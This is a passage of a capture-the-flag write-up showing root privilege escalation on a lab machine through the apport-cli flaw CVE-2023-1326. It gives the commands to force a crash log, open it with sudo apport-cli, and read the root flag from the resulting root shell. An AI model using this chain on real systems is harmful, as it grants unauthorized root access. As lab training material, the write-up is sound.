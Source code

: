 [https://www.redpacketsecurity.com/canonical-apport-cli-privilege-escalation-cve-2023-1326/](https://www.redpacketsecurity.com/canonical-apport-cli-privilege-escalation-cve-2023-1326/) is a CVE security post for CVE-2023-1326. Effectively viewing crash logs uses less, and while running with sudo you can get a shell as the user running the code (root in this case). 

There is one problem though, I didnt find any crash logs. [https://codegolf.stackexchange.com/questions/100532/shortest-code-to-throw-sigill](https://codegolf.stackexchange.com/questions/100532/shortest-code-to-throw-sigill) was what I found to crash the ssh session and create a crash log. 

```bash
bash-3.2$ kill -4 $$
Illegal instruction: 4
```

```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_bash.1000.crash 

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (470.6 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
..................................................................................................................................................................................................................................................................................................................................................................................................................................................................................ERROR: Cannot update /var/crash/_usr_bin_bash.1000.crash: [Errno 13] Permission denied: '/var/crash/_usr_bin_bash.1000.crash'
....................
root@devvortex:/home/logan# cat /root/root.txt
da5e3401676d8a------------------
```
